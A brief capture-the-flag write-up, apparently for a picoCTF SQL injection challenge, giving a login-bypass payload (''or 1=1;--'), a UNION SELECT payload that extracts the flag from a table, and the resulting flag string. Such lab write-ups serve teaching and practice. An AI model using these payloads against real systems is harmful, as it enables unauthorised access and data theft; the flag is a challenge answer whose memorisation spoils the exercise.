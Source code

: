 Logged in using `'or 1=1;--` in the pass page and got another field after login.

Got flag using `123' UNION SELECT flag, null, null from more_table;--`.

<figure><img src="./flag.png"></figure>

Flag:
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}	
``` 